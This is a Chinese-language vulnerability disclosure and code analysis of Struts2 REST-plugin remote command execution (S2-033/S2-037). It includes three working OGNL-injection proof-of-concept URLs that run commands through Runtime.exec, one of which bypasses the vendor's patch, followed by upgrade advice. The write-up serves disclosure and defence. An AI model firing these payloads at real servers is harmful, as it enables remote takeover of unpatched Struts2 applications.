 # PKAV 发现 Struts2 最新远程命令执行漏洞（S2-037）

0x00 前言
=====

刚过完儿童节回来发现struts2 出了S033，于是放下手中的棒棒糖赶紧分析一下。

![](http://drops.javaweb.org/uploads/images/d25a2c0638caf52bb1ebfafe0f7fd6ea061dbe2a.jpg)

0x01 S2-033 漏洞回顾
=====

先来回顾一下S033

根据官方描述

![](http://drops.javaweb.org/uploads/images/1bd3a812084b0eb21e32b26c79bd191470f735bc.jpg)

很明显有两个关键点：第一个是REST Plugin,另一个是Dynamic Method Invocation is enabled.（也就是开启动态方法执行），看到这里需要满足两个条件，感觉有点鸡肋啊……

直接下载回来源代码调试，载入官方的演示包struts2-rest-showcase.war，我们先随便访问一个连接`/struts2-rest-showcase/orders/1`,很快定位到关键代码

Rest-plujin包里面的`org.apache.struts2.rest.RestActionMapper`

![](http://drops.javaweb.org/uploads/images/6cbe5959f1833febf6889c4c4e344d583b708de0.jpg)

首先要过第一关：dropExtension,这个方法会检查后缀名

![](http://drops.javaweb.org/uploads/images/823a00f9238d847cb4a1f3c6b6d8c76b0b4eaa16.jpg)

其中extensions的值来自配置文件struts-plugin.xml，默认是：

![](http://drops.javaweb.org/uploads/images/5745bb3ce9fece5f0b4bffd121a648ee8ec695ad.jpg)

因此要想通过检查我们需要构造一个.xhtml、.xml或者.json结尾的URL，或者没有后缀直接是xx/xx,这就不能使用”.”这显然是不行的。

继续往下调试：

![](http://drops.javaweb.org/uploads/images/99b913b2dbb2ef3600acdc4a2d00f470d52e9946.jpg)

就是说如果刚才的链接里面出现了!就进入下面的流程直接得到一个!后面的值，然后没有过滤直接放在了mapping里面

构造链接：`/struts2-rest-showcase281/orders/3/1!{xxx}`

![](http://drops.javaweb.org/uploads/images/4f3df83d85e58d8f0b445662c3ab91d5646e36ea.jpg)

在加上前面有一个allowDynamicMethodCalls的判断，几乎可以肯定漏洞点就是在这儿,继续往下走，最终method会进入到，com.opensymphony.xwork2.DefaultActionInvocation类的invokeAction方法，如下图

![](http://drops.javaweb.org/uploads/images/adf0c6531d25c22c5f26bab6324879be988aab59.jpg)

我们看到methodName直接进入到了ognlUtil.getValue方法，对struts2历史漏洞有点熟悉的同学都知道，这个就是最终导致代码执行的地方。不多说，直接上POC：

```
http://127.0.0.1:8888/struts2-rest-showcase/orders/3!%23_memberAccess%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS,@java.lang.Runtime@getRuntime().exec(%23parameters.cmd),index.xhtml?cmd=calc

```

![](http://drops.javaweb.org/uploads/images/60de4e60cfd698c2243064c7fc6456cd76f8cb41.jpg)

0x02 绕过动态方法执行的限制
=====

但是如果真的只是这样这个漏洞真的是比较鸡肋的，因为动态方法在这里默认是不开启的，那我们接着分析，有没有可能不用开动态方法都可以执行任意代码了，答案是肯定的。这个地方能不能代码执行主要是这个地方的限制

![](http://drops.javaweb.org/uploads/images/4a139730ac3a94d0fa4bbb41db5342b0516cfd59.jpg)

其实只要我们继续往下走，会发现其他地方也会mapping.setMethod代码如下

![](http://drops.javaweb.org/uploads/images/76a4fecbd3bebbae23b69591e06a2f72850b66ae.jpg)

其实无非就是：

```
http://127.0.0.1:8888/struts2-rest-showcase/orders/3/methodName

```

这样构造就不需要动态方法执行了，上POC：

```
http://127.0.0.1:8888/struts2-rest-showcase/orders/3/%23_memberAccess%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS,@java.lang.Runtime@getRuntime().exec(%23parameters.cmd),index.xhtml?cmd=calc

```

这个算其实已经算是一个0day了，这个可以绕过了动态方法执行的限制。但是这还不够，于是我马上找来了最新官方声称漏洞修复的2.3.281、2.3.20.3 and 2.3.24.3，同样的代码却报错了

![](http://drops.javaweb.org/uploads/images/a67168580f1b728192c1ba9e8507abb462440457.jpg)

难道官方是这样修复的，改了检查方法执行的方法checkEnableEvalExpression，这个方法是在request.xx(x)这种代码执行的方式后加入的判断，主要是为了杜绝参数名上面的代码执行，不过好在这个地方我们不需要这种方式执行代码。经过研究我还是通过三目运算符绕过了这个检测，POC：

```
http://127.0.0.1:8888/struts2-rest-showcase281/orders/3/(%23mem=%23_memberAccess%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS)%3f@java.lang.Runtime@getRuntime().exec(%23parameters.cmd):index.xhtml?cmd=calc

```

![](http://drops.javaweb.org/uploads/images/c4b3bb07b0e7af0955ce3d3ec7a7581aee032d7c.jpg)

6月3号的时候我给struts2官方提交了这个新的高危漏洞(CVE编号CVE-2016-4438)，影响所有使用了REST插件的用户，无需要开启动态方法执行（不包括struts 2.5）,此后的几天网上不断有关于s2-033的分析与绕过出来，但是他们大都错误的认为需要开启动态方法执行才能触发漏洞，其实并不需要。正如官方回复这个漏洞说的

![](http://drops.javaweb.org/uploads/images/562bf4c3b61bb43fcef9fdca8e6ecae76e0553a9.jpg)

去掉了with ! operator when Dynamic Method Invocation is enabled这句话，因此这个漏洞影响更为广泛。

0x03 修复建议
=====

在上一个版本里面也是method出的问题，当时是加入了cleanupActionName方法进行过滤，如果这个地方要修复，也可以加入这个方法过滤一下即可。更新至官方struts 2.3.29

**在线检测：**[http://www.pkav.net/tool/struts2/index.php](http://www.pkav.net/tool/struts2/index.php)

**参考：**https://cwiki.apache.org/confluence/display/WW/S2-037